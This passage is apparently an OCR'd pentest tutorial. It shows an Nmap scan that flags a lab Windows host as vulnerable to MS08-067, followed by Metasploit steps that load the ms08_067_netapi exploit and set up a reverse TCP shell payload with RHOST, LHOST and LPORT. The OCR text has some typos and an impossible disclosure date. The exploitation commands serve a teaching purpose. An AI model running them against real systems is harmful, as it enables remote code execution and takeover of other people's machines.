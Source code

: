 ```
Starting Nmap 7.25BETA2 ( Https://nmap.org ) at 2017-02-27 17:49 AEDT
Nmap scan report for 192.168.143.138
Hhost is up (0.00038s latency).
PORT	STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:07:C2:21 (VMware)

Host script results:
| smb-vuln-ms08-067:
| VULNERABLE:
| Microsoft Windows system vulnerable to remote code execution (MS08-067)
|   State: VULNERABLE
|   IDs:  CVE:CVE-2008-4250
|		  The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
| 		  Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary 
|		  code via a crafted RPC request that triggers the overflow during path canonicalization. 
|
|	Disclosure date: 2008-20-23
|	References:
|	   https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_	   https://technet.microsoft.com/en-us/library/securiy/ms08-067.aspx
```

### Metasploit

The `ms08_067_netapi` module is a well known and stable exploit that comes with the [Metasploit framework](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi). Not all exploit modules have a [check command](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/), as it will only apply to exploits where the ability to perform checks (without actually exploiting it) are written into the module. This function ishandy to confirm if the target meets the requirements for exploitation. Luckily, the `ms08_067_netapi` does come with the check command avaliable!

From your Nmap scanning, you should have the IP of your target host, and have an initial confiration that the host is vulnerable.

**Prepare the exploit**

1. Start metasploit using the `msfconsole` command
2. Load the exploit module `use exploit/windows/smb/ms08_067_netapi`
3. Type `info` to learn more about the exploit
4. Enter `options` to list the options required for exploitation
5. Set your target machine `set RHOST 192.168.143.138`

** Prepare your payload**

1. You can use the `show payloads` command to list the compatible payloads for your choosen exploit.
2. In this example, we will use the reverse meterpreter tcp shell, enter `set PAYLOAD windows/shell/reverse_tcp`
3. Enter `options` to list the options for both the configured exploit and payload.
3. Now configure the payload to target to your machine's IP, this will allow us to establish the reverse shell connection `set LHOST 192.168.0.1` 
4. Configure the listening port, by default this is port 4444 `set the LPORT 4444`

